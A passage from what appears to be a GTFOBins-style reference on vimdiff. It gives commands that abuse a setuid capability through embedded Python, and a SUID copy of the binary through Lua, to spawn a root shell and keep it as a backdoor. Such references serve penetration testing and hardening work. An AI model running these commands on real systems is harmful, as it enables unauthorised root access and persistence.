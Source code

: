 This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
cp $(which vimdiff) .
sudo setcap cap_setuid+ep vimdiff

./vimdiff -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vimdiff` is compiled with Lua support.

```
sudo install -m =xs $(which vimdiff) .

./vimdiff -c ':lua os.execute("reset; exec sh")'
```